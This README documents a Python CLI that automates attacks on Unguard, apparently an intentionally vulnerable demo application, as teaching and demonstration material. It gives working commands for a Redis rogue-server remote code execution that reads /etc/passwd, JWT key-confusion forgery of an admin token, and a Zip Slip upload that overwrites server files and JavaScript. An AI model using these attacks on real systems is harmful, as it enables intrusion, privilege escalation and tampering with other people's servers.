# Unguard Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Unguard application.

## Installation

Create and activate the virtual environment for the `unguard-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install -r requirements.txt
pip install --editable .
```

Check out what you can do now
 
```
ug-exploit --help
```

## General Usage

Make sure to login first

```
ug-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `unguard-redis:6379`.

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Unguard inside Kubernetes it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success, and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.

## JWT KeyConfusion Attack
For this exploit to work you need login via the login-command before.
Further details and a writeup about the vulnerability are available in the user-auth-service project.

### Usage
To forge a JWT token just provide the usertag which is a combination of username:userid.

!Attention! The username and userid have to match, otherwise the forged token will not have the right permissions.
```
$ ug-exploit forge-token admin:1
```

Now you can either use ug-exploit with the forged-user(logged in automatically) or use the forged token, which is printed to the command-line manually.

## Zip Slip
All you need for a Zip Slip attack is an archive with special renamed files. 
For example a file called ```../../file.exe``` will break out of the target folder (which is also known as ```path traversal```) and may overwrite existing files.  
The archives at ```/exploits/tool/zipslip_payloads``` already holds such path traversal filenames. Make sure to use ```exploit-ads.zip``` for demonstrating exploit!
Further details and a writeup about the vulnerability (and how to make such an archive) are available in under ```/exploit/writeups/zipslip```.

### Usage
For the exploit you need a user with the AD_MANAGER Role. Therefore, the user "admanager" will be created at unguard per default. Just log in as admanager:
```
vg-exploit login admanager  
```
Afterwards, you are permitted to use the ads-upload command for uploading arbitrary zip archives. With that you just have to upload the exploit-archive:
```
vg-exploit ads-upload --archive_path ./zipslip_payloads/exploit-ads.zip
```

The `exploit-ads.zip` archive will overwrite the two bird ads with images of pigeons and also overwrite a client-facing JavaScript file. 
The new JS file will cause an alert when accessing any ad.  
Due to Browser caching a hard refresh of the page may be necessary to see the new images

To revert the server back to the original version just upload the original-ads.zip:
```
vg-exploit ads-upload --archive_path ./zipslip_payloads/original-ads.zip
```


